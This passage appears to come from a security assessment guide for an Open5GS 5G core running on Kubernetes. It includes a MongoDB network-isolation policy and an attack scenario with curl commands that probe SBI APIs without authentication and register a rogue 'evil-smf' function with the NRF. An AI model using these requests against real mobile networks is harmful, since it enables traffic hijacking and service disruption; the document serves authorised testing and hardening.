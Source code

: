 **2. Database Network Isolation**
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: database-isolation
  namespace: open5gs
spec:
  podSelector:
    matchLabels:
      app: mongodb
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          component: 5g-core
    ports:
    - protocol: TCP
      port: 27017
```

---

## Attack Scenario 6: 5G Core API Security Assessment

### Objective
Test authentication and authorization on Service Based Interface (SBI) APIs and management endpoints of 5G network functions.

### Attack Procedure

**Step 1: API Enumeration**
```bash
# Discover exposed APIs
kubectl get svc -n open5gs | grep -E 'amf|smf|nrf|ausf'

# Test unauthenticated access
curl -v http://my5gc-nrf.open5gs.svc.cluster.local:7777/nnrf-nfm/v1/nf-instances
curl -v http://my5gc-amf.open5gs.svc.cluster.local:7777/namf-comm/v1/ue-contexts
```

**Step 2: Fake NF Registration**  
```bash
# Register malicious SMF with NRF
curl -X PUT \
  http://my5gc-nrf.open5gs.svc.cluster.local:7777/nnrf-nfm/v1/nf-instances/evil-smf \
  -H "Content-Type: application/json" \
  -d '{
    "nfInstanceId": "evil-smf",
    "nfType": "SMF", 
    "nfStatus": "REGISTERED",
    "ipv4Addresses": ["10.244.2.100"],
    "nfServices": [{
      "serviceInstanceId": "nsmf-pdusession",
      "serviceName": "nsmf-pdusession"
    }]
  }'
```
